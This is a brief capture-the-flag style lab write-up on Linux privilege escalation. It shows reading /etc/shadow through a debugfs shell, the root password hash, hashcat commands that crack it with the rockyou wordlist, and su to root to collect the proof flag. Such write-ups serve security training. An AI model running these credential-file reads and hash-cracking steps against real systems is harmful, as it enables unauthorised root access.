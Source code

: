 ![[PG/Linux/attachments/Pasted image 20250711122046.png]]

Try to read `/etc/shadow`

```
cat /etc/shadow
```

![[PG/Linux/attachments/Pasted image 20250711122141.png]]

Grab root hash

```
$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.h
```

Simple

![[PG/Linux/attachments/Pasted image 20250711122324.png]]

```
hashcat -m 1800 root.hash /usr/share/wordlist/rockyou.txt
```



![[PG/Linux/attachments/Pasted image 20250711122531.png]]
^ remove the `:1945..`

```
hashcat -m 1800 --user root.hash /usr/share/wordlists/rockyou.txt
```


Then it cracks to explorer (prob could've guessed that tbh)
![[PG/Linux/attachments/Pasted image 20250711122722.png]]


Quit debugfs shell 

```
quit
```


```
su root
```

![[PG/Linux/attachments/Pasted image 20250711122929.png]]

Grab proof.txt now.

![[PG/Linux/attachments/Pasted image 20250711123026.png]]

Idk what these flags are about 

![[PG/Linux/attachments/Pasted image 20250711123128.png]]

```
ZmU2VjLmNvbQ==
```